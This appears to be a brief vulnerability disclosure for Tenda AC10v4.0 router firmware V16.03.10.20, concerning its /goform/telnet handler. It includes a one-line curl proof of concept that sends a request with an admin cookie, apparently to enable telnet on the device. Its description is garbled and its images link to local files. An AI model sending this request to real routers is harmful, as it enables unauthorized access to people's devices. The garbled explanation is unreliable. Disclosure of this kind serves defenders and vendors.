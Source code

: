 # TendaAC10v16.03.10.20telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103684

## Affected version

AC10v4.0 V16.03.10.20

## Vulnerability details

An issue was discovered in AC10v4.0 V16.03.10.20 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![1736439948488](F:\Desktop\工具\二进制漏洞\IoT\img\1736439948488.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![1736440027143](F:\Desktop\工具\二进制漏洞\IoT\img\1736440027143.png)

